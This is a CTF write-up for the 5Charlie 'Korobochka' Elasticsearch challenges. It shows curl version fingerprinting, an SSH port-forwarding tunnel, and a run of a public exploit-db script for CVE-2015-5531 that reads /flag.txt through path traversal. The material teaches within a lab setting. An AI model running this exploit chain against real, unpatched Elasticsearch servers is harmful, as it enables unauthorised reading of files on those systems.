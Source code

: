 ```yaml
---
title: "5Charlie CTF - Korobochka"
date: 2020-04-28 20:32:38 -0500
categories:
  - write-up
tags:
  - ctf
  - write-up
  - elastic
  - linux
  - hacking
---
```


A write-up of the "Korobochka" Elastic hacking challenge from 5Charlie CTF.

## Korobochka 1

### Korobochka 1 - Challenge

To access these challenges, ssh to korobochka@haxor.5charlie.com using the attached private key.

What is the version number of the elasticsearch service running on 172.90.0.2?

**Attachments:** `id_korobochka` - SSH Key

### Korobochka 1 - Solution

The default port for ElasticSearch is 9200, so let's just curl that.

{% highlight bash %}
curl http://172.90.0.2:9200
{% endhighlight %}

``` text
bash-5.0$ curl http://172.90.0.2:9200
{
  "status" : 200,
  "name" : "Attuma",
  "cluster_name" : "elasticsearch",
  "version" : {
    "number" : "1.6.0",
    "build_hash" : "cdd3ac4dde4f69524ec0a14de3828cb95bbb86d0",
    "build_timestamp" : "2015-06-09T13:36:34Z",
    "build_snapshot" : false,
    "lucene_version" : "4.10.4"
  },
  "tagline" : "You Know, for Search"
}
```

There it is!

**Flag:** `1.6.0`

## Korobochka 2

### Korobochka 2 - Challenge

What is the flag in /flag.txt on 172.90.0.2? (format: flag{some_text})

### Korobochka 2 - Solution

Given that this version is very old, the challenge is asking for something that's not normally available in Elastic, and we just had to figure out the version of the service, it's a fair bet that we're looking for an exploit for the service.

Nailed it. First result on Google for me:
https://www.exploit-db.com/exploits/38383

{% highlight bash %}
python2 38383.py localhost /flag.txt
{% endhighlight %}

``` text
bash: python: command not found
```

Oh... That's fine, we'll just make an SSH tunnel and run it on our own box.

{% highlight bash %}
ssh -Nf -L 9200:172.90.0.2:9200 -o "identitiesOnly=yes" -i ./id_korobochka korobochka@haxor.5charlie.com
{% endhighlight %}

If you're not familiar with SSH tunneling, here's a quick breakdown of the above.

- `-N`: Do not execute a remote command.  This is useful for just forwarding ports.
- `-f`: Requests ssh to go to background just before command execution. (So we can reuse the terminal)
- `-L`: Specifies that connections to the given TCP port or Unix socket on the local (client) host are to be forwarded to the given host and port, or Unix socket, on the remote side.
  - `[bind_address:]port:host:hostport`
  - ELIF: We're telling SSH to forward any traffic that goes to our local port 9200 across the SSH tunnel and then send it to `172.90.0.2:9200`

The other options aren't really useful to the tunnel, feel free to look them up.

Now that our tunnel is set up, let's run it.

{% highlight bash %}
python2 38383.py localhost /flag.txt
{% endhighlight %}

``` text
➜  korobochka python2 38383.py localhost /flag.txt
!dSR script for CVE-2015-5531

flag%7Byou_know%2C_for_search%7D
```

**Flag:** `flag{you_know,_for_search}`

## Additional Notes

I'll be honest, I actually tunneled at the very beginning.
When it comes to database-related challenges, I usually start with that and forward it to a local GUI so that I can access the information faster.

For this chall I tried forwarding it to DataGrip, Kibana, and DejaVu, but unfortunately the version of Elastic was so lod that none of them could communicate properly.

Usually this is a very effective technique for me though, especially DataGrip.
